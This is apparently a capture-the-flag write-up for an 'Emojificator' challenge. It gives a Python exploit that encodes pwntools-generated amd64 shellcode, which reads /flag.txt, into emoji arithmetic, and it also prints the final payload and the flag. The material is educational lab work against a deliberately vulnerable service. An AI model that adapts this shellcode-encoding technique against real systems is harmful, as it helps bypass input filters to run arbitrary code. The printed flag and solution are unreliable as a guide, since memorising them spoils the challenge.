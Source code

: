 # The Emojificator

## Challenge

> Emojis are actually very cool. Emojis have byte representations under the hood, and you can look at it in Python with "⚠️".encode('utf-8')!
>
> But for the emoji mathificator, we've added more fun. If you want to get some bytes out of an emoji, just tell us which byte you want using the clock emojis! If "⚠️".encode('utf-8') is b'\xe2\x9a\xa0\xef\xb8\x8f', then ⚠️🕐 (one o'clock) will give you the first byte, \xe2!
>
> But here's where it gets crazy. Say you want to add two bytes together before they get processed? No problemo my friend! Just use the ➕ emoji! So ⚠️🕐➕⚠️🕐 gives the byte \xc4 (\xe2 + \xe2 % 256 is \xc4). Since we're really bananas, you can even subtract them. With the emoji mathificator, there's nothing you can't do.
>
> You can even run code! Start your emojis with 🏃 and we'll run the bytes that result. Truly nothing is as powerful as the mathificator!

We are allowed to write shellcode in the form of emojis, using clocks to specify which byte to use.
We also get basic arithmetic with addition and subtraction.
We are not allowed to chain these operations.

Thus, every byte in our shellcode must be a single emoji+clock or two of them joined by addition or subtraction.

## Solution

I copied a subset of emojis from the internet and iterated over them, extracting all the possible bytes from a single emoji+clock pair.

Then, I iterated over each possible pair of emojis and added all the bytes that could be made from any two pairs with the given operations.

Once this was complete, I could translate any byte to a set of emojis.

I used pwntools to generate shellcode which would read the flag, then I translated it into emojis.
The final payload looked like this:

```
🏃😀🕐➖😆🕓😀🕐➕😄🕓😀🕐➖🤨🕓🥸🕓😀🕑➕🤐🕓😀🕐➖😊🕓😀🕐➖😄🕓😀🕐➖😏🕓😀🕐➖😉🕓😀🕑➕😏🕓😀🕐➕😄🕓😀🕐➕😈🕓😀🕐➖🤠🕓😀🕐➖😆🕓😀🕑➖😝🕓😀🕐➖😀🕒😀🕐➖🤨🕓😉🕓😆🕓➖😀🕑😀🕐➖👿🕓😀🕑➖🤩🕓😀🕑➖🤐🕓🤣🕒➖😀🕑😀🕐➖🤯🕓🥺🕓😀🕑➖🤠🕓😀🕑➖🤠🕓😀🕑➖🤠🕓😀🕐➕😏🕓😀🕐➖🤨🕓😉🕓😶🕓➖😀🕐😀🕐➖😆🕓😀🕑➕😉🕓😀🕐➖😀🕒😀🕐➖😆🕓🤠🕓➖😀🕑😀🕐➖🤑🕓🙂🕒😀🕑➖🤐🕓🤣🕒➖😀🕑
```

## Exploit

```py
#!/usr/bin/env python3

emojis = [
        '😀', '😃', '😄', '😁', '😆', '😅', '🤣', '😂',
        '🙂', '🙃', '😉', '😊', '😇', '🥰', '😍', '🤩',
        '😘', '😗', '😚', '😙', '🥲', '😋', '😛', '😜',
        '🤪', '😝', '🤑', '🤗', '🤭', '🤫', '🤔', '🤐',
        '🤨', '😐️', '😑', '😶', '😏', '😒', '🙄', '😬',
        '🤥', '😌', '😔', '😪', '😮', '💨', '🤤', '😴',
        '😷', '🤒', '🤕', '🤢', '🤮', '🤧', '🥵', '🥶',
        '😶', '🥴', '😵', '💫', '😵', '🤯', '🤠', '🥳',
        '🥸', '😎', '🤓', '🧐', '😕', '😟', '🙁', '😮',
        '😯', '😲', '😳', '🥺', '😦', '😧', '😨', '😰',
        '😥', '😢', '😭', '😱', '😖', '😣', '😞', '😓',
        '😩', '😫', '🥱', '😤', '😡', '😠', '🤬', '😈',
        '👿', '💀', '💩', '🤡', '👹', '👺', '👻', '👽️',
        '👾', '🤖', '😺', '😸', '😹', '😻', '😼', '😽',
        '🙀', '😿', '😾', '🙈', '🙉', '🙊', '👋', '🤚',
        '🤟', '🤘', '🤙', '👈️', '👉️', '👆️', '🖕', '👇️',
        '👍️', '👎️', '✊', '👊', '🤛', '🤜', '👏', '🙌',
        '👐', '🤲', '🤝', '🙏', '🤳', '💪', '🦾', '🦿',
        '🦵', '🦶', '👂️', '🦻', '👃', '🧠', '🫀', '🫁',
        '🦷', '🦴', '👀', '👄', '💋', '👶', '🧒', '👦',
        '👧', '🧑', '👨', '👩', '🧔', '🧔', '👤', '👥',
        '🫂', '👣', '👕', '👖', '👔', '👗', '👙', '👘',
        '👠', '👡', '👢', '👞', '👟', '👒', '🎩', '🎓',
        '👑', '🎒', '👝', '👛', '👜', '💼', '👓', '🤿',
        '🌂', '🧣', '🧤', '🧥', '🦺', '🥻', '🩱', '🩲',
        ]

clocks = ['🕐', '🕑', '🕒', '🕓']
plus = '➕'
minus = '➖'
run = '🏃'

bytemap = {}

for emoji in emojis:
    encoded = emoji.encode('utf-8')
    for byte in encoded[0:4]:
        if byte not in bytemap:
            bytemap[byte] = emoji + clocks[encoded.index(byte)]

bytemap_append = {}

for i in range(0, len(bytemap)):
    for j in range(i, len(bytemap)):
        op_i = list(bytemap)[i]
        op_j = list(bytemap)[j]

        add = (op_i + op_j) % 0x100
        if add not in bytemap and add not in bytemap_append:
            bytemap_append[add] = bytemap[op_i] + plus + bytemap[op_j]

        sub1 = (op_i - op_j) % 0x100
        if sub1 not in bytemap and sub1 not in bytemap_append:
            bytemap_append[sub1] = bytemap[op_i] + minus + bytemap[op_j]

        sub2 = (op_j - op_i) % 0x100
        if sub2 not in bytemap and sub2 not in bytemap_append:
            bytemap_append[sub2] = bytemap[op_j] + minus + bytemap[op_i]

bytemap = bytemap | bytemap_append

print(f"loaded {len(bytemap)} / 256 bytes")

from pwn import *

context.update(arch="amd64", os="linux", bits = 64, endianness = 'little')

shellcode = asm(shellcraft.cat(b'/flag.txt'))

payload = run

for byte in shellcode:
    payload += bytemap[byte]

print(payload)
```

## Flag

```
flag{21cce4d0231549544b1c9786b982e8e7}
```
